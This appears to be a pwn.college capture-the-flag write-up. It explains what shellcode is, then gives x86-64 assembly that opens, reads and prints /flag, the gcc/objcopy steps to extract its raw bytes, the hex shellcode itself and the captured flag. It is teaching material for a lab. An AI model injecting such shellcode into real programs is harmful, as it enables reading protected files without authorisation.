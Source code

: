 ### What is shellcode?

A shellcode is a small piece of code that is used to exploit vulnerabilities in a program. 

Shellcodes are injected into a programs memory through input buffer after which it is executed by the program.

&nbsp;

For this challenge we have to write a shellcode which reads the `/flag` file and prints its content. 



    mov rax, 0x00000067616c662f         "\flag" in hexadecimal
    push rax                            

    mov rdi, rsp                        rdi points to file name                      
    mov rsi, 0                          no flags 
    mov rax, 2                          open syscall
    syscall

    mov rdi, rax                        file descriptor
    mov rsi, rsp                        buffer  (load the content onto the stack)
    mov rdx, 1000                       size of buffer 
    mov rax, 0                          read syscall
    syscall

    mov rdi, 1                          file descriptor
    mov rsi, rsp                        buffer
    mov rdx, rax                        size of buffer
    mov rax, 1                          write syscall
    syscall

    mov rdi, 42                         error code 42 (it has no meaning)
    mov rax, 60                         exit syscall 
    syscall

(https://syscall.sh) 

Now we will convert this to an elf file and copy the .text section into another file
    
    gcc -nostdlib -static shellCode.S -o shellCode-elf
    objcopy --dump-section .text=shellCode-raw shellCode-elf

This is the shellcode
    
    \x48\xb8\x2f\x66\x6c\x61\x67\x00\x00\x00\x50\x48\x89\xe7\x48\xc7\xc6\x00\x00\x00\x00\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\xc7\xc2\xe8\x03\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\x89\xe6\x48\x89\xc2\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\xc7\xc7\x2a\x00\x00\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05

Now we simply just give this as an input to the program and we will get out flag

pwn.college{ASev13ZgDZChX__GXrv_cY_5nIr.01NxIDL5kzM1czW}

